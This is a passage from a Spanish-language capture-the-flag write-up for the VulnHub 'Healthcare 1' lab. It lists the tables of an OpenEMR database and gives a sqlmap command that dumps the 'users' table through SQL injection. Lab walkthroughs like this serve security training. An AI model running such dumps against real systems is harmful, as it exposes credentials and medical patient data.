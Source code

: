 ```bash
| openemr_postcalendar_topics     |
| openemr_session_info            |
| patient_access_offsite          |
| patient_access_onsite           |
| patient_data                    |
| patient_reminders               |
| payments                        |
| pharmacies                      |
| phone_numbers                   |
| pma_bookmark                    |
| pma_column_info                 |
| pma_history                     |
| pma_pdf_pages                   |
| pma_relation                    |
| pma_table_coords                |
| pma_table_info                  |
| pnotes                          |
| prescriptions                   |
| prices                          |
| procedure_order                 |
| procedure_report                |
| procedure_result                |
| procedure_type                  |
| registry                        |
| rule_action                     |
| rule_action_item                |
| rule_filter                     |
| rule_patient_data               |
| rule_reminder                   |
| rule_target                     |
| sequences                       |
| standardized_tables_track       |
| syndromic_surveillance          |
| template_users                  |
| transactions                    |
| user_settings                   |
| users                           |
| users_facility                  |
| x12_partners                    |
+---------------------------------+
```

Sabiendo que existe una tabla llamada `users` podemos intentar volcar los datos de la tabla.

```bash
sqlmap -r request.txt -D openemr -T users --dump --batch
```

![alt text](/assets/img/writeups/vulnhub/healthcare1/image-6.png)

